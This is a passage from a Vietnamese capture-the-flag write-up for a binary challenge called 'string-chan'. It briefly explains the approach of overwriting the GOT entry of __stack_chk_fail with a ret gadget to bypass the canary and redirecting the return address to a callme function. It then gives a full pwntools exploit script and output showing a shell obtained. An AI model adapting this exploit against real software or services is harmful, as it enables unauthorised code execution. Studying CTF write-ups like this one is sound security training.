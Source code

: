 Có một số điều mình thắc mắc, không biết là tại sao khi mình ghi đè vào got của `__stack_chk_fail_` đến hàm callme thì lên remote bị EOF. Có lẽ do `stack misalignment` trên remote server. Vậy nên mình quyết định không overwrite GOT bằng callme, mà thay vào đó sẽ overwrite vào return address bằng hàm callme, và bypass canary bằng cách ghi đè vào GOT của `__stack_chk_fail` bằng lệnh ret. Sau đó thoát loop và sẽ có shell.

**Final Script:**
```py
from pwn import *

e = context.binary = ELF('./chall')
#r = e.process()
gs = """
b*main+510
"""
#gdb.attach(r, gs)
#pause()
r = remote("string-chan-b4fceb7dfb16f556.chall.ctf.blackpinker.com", 443, ssl = True)
payload = b'A' * 0x20 + p64(e.got['__stack_chk_fail']) + p64(8) * 2 #pointer, size, allocate capacity respectively
#pause()
r.sendlineafter(b'choice: ',b'1')
#pause()
sleep(2.5)
r.sendline(payload)
#pause()
sleep(2.5)
r.sendlineafter(b'choice: ',b'3')
sleep(2.5)
#pause()
r.sendlineafter(b'str: ', p64(0x000000000040101a)) #ret
sleep(1)
payload = b'\x00' * 0x68 #padding to saved rip
payload += p64(0x00000000004016de) # call_me
r.sendline(b'1')
sleep(2.5)
r.sendline(payload)
sleep(1)
r.sendline(b'100') # break loop
r.interactive()
```
```sh
python3 x.py                                                                        ─╯
[*] '/home/lynklee/string_chan/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/lynklee/string_chan/chall': pid 2460
[*] Switching to interactive mode
choice: c_str: choice: bye!
$ id
uid=1000(lynklee) gid=1000(lynklee) groups=1000(lynklee),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),133(lxd),134(sambashare)
$ whoami
lynklee
```
